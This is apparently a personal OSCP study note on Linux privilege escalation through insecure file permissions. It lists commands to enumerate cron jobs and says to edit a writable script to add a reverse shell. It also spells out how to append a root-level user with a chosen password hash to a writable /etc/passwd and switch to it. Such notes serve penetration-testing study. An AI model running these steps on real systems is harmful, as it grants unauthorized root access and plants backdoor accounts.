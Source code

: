 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/j. Linux Privilege Escalation/5. Insecure File Permissions/"}
---
```


------------
## Abusing Cronjobs
1. Enumerate cronjobs:
```
# Cronjobs for all users
ls -lah /etc/cron*

#User-created cronjobs for the current user
crontab -l

#Running cronjobs:
grep "CRON" /var/log/syslog
cat /var/log/cron.log
```
2. Inspect running script:
```
cat /home/joe/.scripts/user_backups.sh
```
3. Edit script to add reverse shell. Win!

------
## Abusing /etc/passwd
- Historically hashes could be stored alongside user information in /etc/passwd
- If one can edit /etc/passwd a hash can be placed for a user it takes precedence over /etc/shadow, hence arbitrary password and user change
1. Generate password hash:
```
openssl passwd <arbitrarypassword>
```
2. Echo the hash plus user info into /etc/passwd:
```
echo "<username>:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
```
3. Switch user to your new user and provide the password:
```
su <newuser>
```
4. Win!

